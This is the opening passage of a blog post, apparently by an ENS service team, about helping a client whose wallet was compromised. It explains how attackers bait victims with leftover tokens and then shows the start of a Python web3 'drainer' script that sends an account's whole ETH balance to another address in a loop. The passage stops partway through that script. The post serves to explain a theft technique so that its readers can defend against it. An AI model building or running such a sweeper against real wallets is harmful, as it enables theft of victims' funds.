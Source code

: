 ```yaml
---
layout: post
title:  "Rescuing ENS names from compromised wallets."
date:   2022-05-18 20:28:22 -0400
categories: web3
---
```

![image](/assets/img/lost.jpeg)

Recently [we](https://ens.vision) had a client message our support channel asking about strange transactions.  

Shortly after we determined the users wallet had been compromised and a drainer/sweeper script attached to the address.  

Understandably the user was quite frantic but patient and allowed us to come up with a plan to try and help rescue his ENS names.  

# The "drainer" problem:

Generally when a wallet is compromised, an attacker will leave some tokens as bait for the owner to send funds to try and transfer.  

The trap works as follows: 

1) Wallet is compromised & drained of ETH. The attacker leaves some tokens in the compromised wallet.  

2) This means the owner can not transfer the tokens in the wallet until they send it more ether to cover the gas fee.

3) Wait for the legitimate owner to try and save their precious tokens by sending more ETH to cover the gas fees of transfer methods and and steal that ETH also.   

A "sweeper" loads a private key of a hacked account and attempts to send the full balance in a loop.  

If there is no balance it simply reverts before broadcasting. 

If it has a balance the funds are sent instantly.  

This kind of attack is low effort and cost as it only requires a web3 rpc connection to query an accounts balance and broadcast transactions.  

Enabling it to run indefinately for basically free.  

Below is an example of a basic drainer script that attempts to send all ETH every 60 seconds if it has enough balance to cover the cost of gas:  

```python
from web3 import Web3, HTTPProvider
import time

# Connect to Ethereum node
w3 = Web3(HTTPProvider('INFURA'))  # Replace with your node address

# Replace with your account details
account = "YOUR_ACCOUNT_ADDRESS"
private_key = "YOUR_PRIVATE_KEY"
destination_account = "DESTINATION_ACCOUNT_ADDRESS"

def send_all_eth(account, private_key, destination_account):
    # Get account balance
    balance = w3.eth.getBalance(account)

    if balance > 0:
        # Estimate gas
        gas_estimate = w3.eth.estimateGas({
```